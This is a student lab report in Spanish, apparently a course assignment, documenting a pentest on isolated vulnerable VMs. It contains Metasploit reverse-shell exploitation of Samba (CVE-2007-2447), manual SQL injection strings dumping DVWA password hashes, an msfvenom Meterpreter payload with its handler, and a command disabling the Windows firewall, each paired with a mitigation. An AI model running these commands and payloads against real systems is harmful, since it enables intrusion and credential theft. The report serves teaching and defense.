# 🛡️ Evaluación Parcial N°3 — Evaluación de Controles de Ciberseguridad


Laboratorio práctico de **pentesting y evaluación de controles de ciberseguridad** sobre máquinas virtuales vulnerables (Kali Linux, Metasploitable 2, Windows 7 y Windows Server 2016) en una red aislada **NAT Network**. Cubre explotación de servicios, análisis de vulnerabilidades, inyección SQL manual, generación y detección de malware, y auditoría de configuración de seguridad — cada técnica acompañada de su **método de mitigación**.

---

**Integrantes:** Abraham Castro · Bárbara Saavedra &nbsp;&nbsp;|&nbsp;&nbsp; **Docente:** Jaime Andrés Gómez González &nbsp;&nbsp;|&nbsp;&nbsp; **Sección:** 002V &nbsp;&nbsp;|&nbsp;&nbsp; **Fecha:** 23 de noviembre de 2026

---

## 📋 Tabla de contenidos
- [🗺️ Topología del laboratorio](#️-topología-del-laboratorio)
- [🌐 Direccionamiento](#-direccionamiento)
- [Pregunta 1 — Explotación de SAMBA](#pregunta-1--explotación-de-samba-cve-2007-2447)
- [Pregunta 2 — Análisis de vulnerabilidades con Nessus](#pregunta-2--análisis-de-vulnerabilidades-con-nessus)
- [Pregunta 3 — SQL Injection manual](#pregunta-3--sql-injection-manual-dvwa)
- [Pregunta 4 — Malware con msfvenom y análisis con SysInspector](#pregunta-4--malware-con-msfvenom-y-análisis-con-sysinspector)
- [Pregunta 5 — Auditoría con MBSA](#pregunta-5--auditoría-con-mbsa-en-windows-server-2016)
- [📝 Notas finales](#-notas-finales)

---

## 🗺️ Topología del laboratorio

Todas las VMs en la misma **NAT Network** de VirtualBox (`10.0.2.0/24`), aisladas de la red física. El atacante (Kali) alcanza a las tres víctimas en la misma subred.

```
                         NAT Network 10.0.2.0/24
   ┌──────────────┐        ┌──────────────┐        ┌──────────────────────┐
   │  Kali Linux  │        │ Metasploitable2│      │    Windows 7         │
   │  (atacante)  │        │   (víctima)   │        │    (víctima)         │
   │  10.0.2.15   │        │   10.0.2.5    │        │    10.0.2.3          │
   └──────┬───────┘        └──────┬───────┘        └──────────┬───────────┘
          │                       │                           │
          └───────────────────────┴───────────┬───────────────┘
                                               │
                                   ┌───────────┴────────────┐
                                   │  Windows Server 2016   │
                                   │  (víctima)  10.0.2.6   │
                                   └────────────────────────┘
```


> **Captura 0:** descubrimiento de hosts con `nmap -sn 10.0.2.0/24` desde Kali — las VMs en la misma NAT Network.

## 🌐 Direccionamiento

| VM | Rol | IP | SO |
|---|---|---|---|
| Kali Linux | Atacante (con Nessus) | `10.0.2.15` | Kali Rolling |
| Metasploitable 2 | Víctima Linux | `10.0.2.5` | Ubuntu 8.04 (kernel 2.6.24) |
| Windows 7 | Víctima Windows | `10.0.2.3` | Windows 7 Home |
| Windows Server 2016 | Víctima / auditado | `10.0.2.6` | Windows Server 2016 Standard |

---

## Pregunta 1 — Explotación de SAMBA (CVE-2007-2447)

Explotación del servicio **Samba 3.0.20** de Metasploitable mediante la vulnerabilidad *"username map script"* (CVE-2007-2447): el servidor pasa el nombre de usuario sin sanitizar al script de mapeo, permitiendo **inyección de comandos** que se ejecutan como **root**.

### a. Footprinting del servicio SAMBA

```bash
nmap -sV -p 139,445 10.0.2.5
```

**Resultado:**
```
139/tcp open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```


> **Captura 1:** `nmap` mostrando el servicio Samba y su versión en el puerto 139/445.

### b. Carga y configuración del exploit

```
msfconsole -q
use exploit/multi/samba/usermap_script
set RHOSTS 10.0.2.5
set payload cmd/unix/reverse
set LHOST 10.0.2.15
show options
```


> **Captura 2:** `show options` con `RHOSTS = 10.0.2.5`, `LHOST = 10.0.2.15` y el payload configurado.

### c. Explotación y demostración de la conexión remota

```
exploit
```

Una vez abierta la sesión (shell como root), se demuestra el control remoto:

```bash
id
hostname
uname -a
```

**Verificación (salida real):**
```
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.5:50582)
uid=0(root) gid=0(root)
metasploitable
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```


> **Captura 3:** shell remoto mostrando `hostname` (metasploitable) y `uname -a` (versión del SO) — acceso como **root**.

> **Mitigación:** actualizar Samba a una versión parcheada (posterior a 3.0.25), deshabilitar la opción `username map script` si no se usa, restringir el acceso a los puertos 139/445 por firewall y aplicar el principio de mínimo privilegio en los servicios.

---

## Pregunta 2 — Análisis de vulnerabilidades con Nessus

Escaneo tipo **Basic Network Scan** con Nessus Essentials a Metasploitable (`10.0.2.5`) y Windows 7 (`10.0.2.3`). Se documentan las vulnerabilidades **críticas** con su descripción y mitigación.


> **Captura 4:** vulnerabilidades detectadas por Nessus, ordenadas por severidad.

### Metasploitable (10.0.2.5) — VNC Server 'password' Password · CVSS 10.0

- **a. Descripción:** el servidor VNC (puerto `5900/tcp`) está protegido con la contraseña débil `password`. Nessus logró autenticarse. Un atacante remoto **no autenticado** puede tomar **control total del escritorio** del sistema.
- **b. Mitigación:** configurar una **contraseña robusta** en el servicio VNC (o deshabilitarlo si no se usa) y restringir el acceso por firewall a direcciones autorizadas.


> **Captura 5:** detalle en Nessus de la vulnerabilidad VNC 'password' (Description + Solution).

### Windows 7 (10.0.2.3) — Unsupported Windows OS · CVSS 10.0

- **a. Descripción:** el equipo ejecuta **Windows 7 Home**, un sistema operativo **fuera de soporte (End of Life)**. Al no recibir actualizaciones de seguridad, acumula vulnerabilidades sin parchar de forma permanente.
- **b. Mitigación:** migrar a un sistema operativo **soportado** (Windows 10/11). Si por obligación debe mantenerse, **aislarlo mediante segmentación de red**, sin acceso a internet, y aplicar controles compensatorios (firewall, EDR).


> **Captura 6:** detalle en Nessus de la vulnerabilidad Unsupported Windows OS (Description + Solution).

> **Nota:** para que Nessus pudiera enumerar el Windows 7 se desactivó temporalmente el Firewall de Windows en la VM (`netsh advfirewall set allprofiles state off`), ya que por defecto bloqueaba los puertos y el escaneo salía incompleto.

---

## Pregunta 3 — SQL Injection manual (DVWA)

Explotación **manual** (sin sqlmap) de la aplicación **DVWA** de Metasploitable, módulo *SQL Injection*, con el nivel de seguridad en **low**. La consulta vulnerable usa **2 columnas** (`First name` / `Surname`), confirmado con `' ORDER BY 2 #` (ok) y `' ORDER BY 3 #` (error).

### b. Nombre de la base de datos

```sql
' UNION SELECT user(), database() #
```
→ Usuario MySQL: `root@localhost` · **Base de datos: `dvwa`**


> **Captura 7:** la inyección revela la base de datos `dvwa` y el usuario `root@localhost`.

### a. Listado de usuarios de la base de datos y c. Hashes de contraseña

```sql
' UNION SELECT user, password FROM users #
```

| Usuario | Hash (MD5) |
|---|---|
| admin | `5f4dcc3b5aa765d61d8327deb882cf99` |
| gordonb | `e99a18c428cb38d5f260853678922e03` |
| 1337 | `8d3533d75ae2c3966d7e0d4fcc69216b` |
| pablo | `0d107d09f5bbe40cade3de5c71e9e9b7` |
| smithy | `5f4dcc3b5aa765d61d8327deb882cf99` |


> **Captura 8:** listado de usuarios de la base de datos con sus hashes MD5 (puntos a y c).

**Enumeración adicional** (evidencia de alcance de la inyección):

```sql
-- Todas las bases de datos
' UNION SELECT schema_name, NULL FROM information_schema.schemata #
-- Usuarios de MySQL
' UNION SELECT user, password FROM mysql.user #
```
→ Bases: `information_schema`, `dvwa`, `metasploit`, `mysql`, `owasp10`, `tikiwiki`, `tikiwiki195`.
→ Usuarios MySQL: `debian-sys-maint`, `root`, `guest` (en este laboratorio sin hash: la cuenta root de MySQL no tiene contraseña).

> **Observaciones de riesgo:** los hashes son **MD5 sin sal (salt)** y corresponden a contraseñas triviales (`admin` y `smithy` comparten hash = misma clave). Son crackeables de forma inmediata.
>
> **Mitigación:** usar **consultas parametrizadas / prepared statements**, validación y saneamiento de la entrada, ejecutar la aplicación con un usuario de BD de **mínimos privilegios** (no root) y almacenar contraseñas con un algoritmo de hashing fuerte con sal (**bcrypt/argon2**), nunca MD5.

---

## Pregunta 4 — Malware con msfvenom y análisis con SysInspector

Generación de un payload con **msfvenom** en Kali, ejecución en el Windows 7 y captura de los **procesos** y **conexiones de red** que genera, usando **ESET SysInspector** (ejercicio de *detección* de malware).

### a. Generación del malware y entrega al Windows 7

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o malware.exe
```
→ `Final size of exe file: 73802 bytes` · `Saved as: malware.exe`

Se transfirió al Windows 7 mediante un servidor HTTP temporal en Kali (`python3 -m http.server 8080`).


> **Captura 9:** `msfvenom` genera `malware.exe` (73802 bytes).

**Handler** en Kali para recibir la conexión:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```
→ `Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.3:49178)`

### b. Captura con SysInspector

**b.1 — Procesos generados por el malware:** en *Running processes*, el proceso `malware.exe` (**PID 700**, ruta `c:\users\abraham\desktop\malware.exe`). Nota: el ejecutable se **camufla** con metadatos de *ApacheBench (ab.exe)*, pero SysInspector lo marca como riesgoso.


> **Captura 10:** SysInspector → Running processes → `malware.exe` (b.1).

**b.2 — Conexiones de red generadas por el malware:** en *Network Connections → TCP Connections*, la conexión **ESTABLISHED**:
```
malware.exe   10.0.2.3:49178  →  10.0.2.15:4444   ESTAB
```


> **Captura 11:** SysInspector → TCP Connections → conexión del malware hacia el atacante (b.2).

> **Mitigación:** antivirus/EDR actualizado con protección en tiempo real, no ejecutar binarios de origen desconocido, monitoreo de **conexiones salientes anómalas** (un proceso de usuario conectándose a un host externo en un puerto alto es patrón típico de *reverse shell*), y segmentación de red con egress filtering.

---

## Pregunta 5 — Auditoría con MBSA en Windows Server 2016

Instalación de **Microsoft Baseline Security Analyzer 2.3** en el Windows Server 2016 (`10.0.2.6`) y análisis de vulnerabilidades administrativas locales.

### a. Listado de vulnerabilidades encontradas

Resultado del escaneo (chequeos administrativos locales): Password Expiration, Automatic Updates, Incomplete Updates, Windows Firewall, Local Account Password Test, File System, entre otros.


> **Captura 12:** reporte de MBSA con el listado de vulnerabilidades administrativas.

### b. Vulnerabilidad de riesgo alto — Password Expiration

- **Descripción:** las **3 cuentas** de usuario del servidor (`Administrador`, `DefaultAccount`, `Invitado`) tienen contraseñas que **nunca expiran**. Al no forzar el cambio periódico, una contraseña comprometida sigue siendo válida de forma indefinida, ampliando la ventana de ataque.
- **Método de mitigación:** configurar una **directiva de expiración de contraseñas** vía *Directiva de grupo (GPO)* o *Directiva de seguridad local* → **Directivas de cuenta → Directiva de contraseñas → Vigencia máxima de la contraseña** (ej. 60–90 días), forzando la rotación periódica. Complementar con longitud y complejidad mínimas e historial de contraseñas.


> **Captura 13:** las 3 cuentas (Administrador, DefaultAccount, Invitado) con contraseña que no expira.

---

## 📝 Notas finales

- Todas las VMs se ejecutaron en **VirtualBox** sobre una **NAT Network** aislada (`10.0.2.0/24`); Metasploitable, al ser deliberadamente vulnerable, nunca se expuso a internet.
- Metasploitable 2 requiere en VirtualBox: versión **Ubuntu (32-bit)**, **PAE/NX activado** e **I/O APIC desactivado** para bootear.
- Herramientas utilizadas: `nmap`, Metasploit Framework (`msfconsole`, `msfvenom`), Nessus Essentials, DVWA, ESET SysInspector, Microsoft Baseline Security Analyzer 2.3.
- Las capturas de evidencia se encuentran en la carpeta [`img/`](img/).
